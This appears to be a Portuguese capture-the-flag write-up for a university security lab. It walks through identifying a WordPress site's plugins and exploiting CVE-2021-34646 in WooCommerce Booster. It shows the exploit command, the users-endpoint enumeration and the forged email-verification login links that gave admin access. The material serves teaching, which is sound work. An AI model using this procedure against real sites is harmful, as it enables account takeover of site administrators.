 # CTF 1 

## Primeira parte

Ao aceder à página **http://ctf-fsi.fe.up.pt:5001**, que é um servidor WordPress, começamos por inferir todas as dependências do site. Através de uma pesquisa mais cuidada, tanto pela navegação nos diversos links como pelo código-fonte do mesmo, acabamos por descobrir em [DIR] as seguintes dependências:

- Wordpress 5.8.2
- Plugin Woocommerce Booster 5.4.3
- Tema Storefront na versão 3.9.1

Depois investigamos em bases de dados de CVEs vulnerabilidades associadas a cada plugin e cada versão, com principal incidência nas que permitissem fazer login como outro utilizador. A CVE-2021-34646 do WooCommerce 5.4.3 pareceu-nos adequada, e ao usarmos a `flag[CVE-2021-34646]` ultrapassamos a primeira parte do desafio.

## Segunda parte

Descoberta a vulnerabilidade da versão 5.4.3 do plugin WooCommerce, catalogada e disponível [aqui](https://www.exploit-db.com/exploits/50299), tivemos acesso a passos detalhados que permitiam explorá-la. A primeira tarefa foi aceder a `https://target.com/wp-json/wp/v2/users/` de forma a encontrarmos IDs de administradores. Após descoberta do ID=1, que é normalmente o usado por utilizadores de acessos priveligiados, também tivemos acesso a um script em Python que usava esse mesmo identificador para atacar o site: 

````bash
$ python3 script.py http://ctf-fsi.fe.up.pt:5001 1
````

Como resultado obtivemos alguns links:

````
Timestamp: Fri, 07 Oct 2022 10:32:54 GMT
Timestamp (unix): 1665138774

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash b8f64a0ef997c812589538daf4778731:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYjhmNjRhMGVmOTk3YzgxMjU4OTUzOGRhZjQ3Nzg3MzEifQ

#1 link for hash 7bab6c3f87bb43a8700395f17fba953b:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2JhYjZjM2Y4N2JiNDNhODcwMDM5NWYxN2ZiYTk1M2IifQ

#2 link for hash 92b66b0659b9b9e339d4afe1c09dee10:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOTJiNjZiMDY1OWI5YjllMzM5ZDRhZmUxYzA5ZGVlMTAifQ
````

Aceder a um dos três resultados obtidos permitiu-nos fazer login na conta do administrador do site. Bastou seguir as indicações do guião para acedermos também à. Lá estava escrita a flag final do desafio, `flag{please don't bother me}`.
